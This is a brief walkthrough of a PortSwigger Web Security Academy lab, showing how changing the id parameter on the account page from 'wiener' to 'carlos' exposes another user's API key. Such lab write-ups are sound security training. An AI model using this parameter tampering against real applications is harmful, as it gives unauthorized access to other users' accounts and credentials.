 # Lab: User ID controlled by request parameter 
# https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter
```bash
# Login as wiener

# Go to my account page and change id=wiener to id=carlos. Hit enter.

https://0a9f0060037f94fe80d46c160004003e.web-security-academy.net/my-account?id=carlos

Your API Key is: 2oLeUF0c8XB1ee77X8uUei0pwLdNM3R5

# Paste API Key to submit your solution.
```
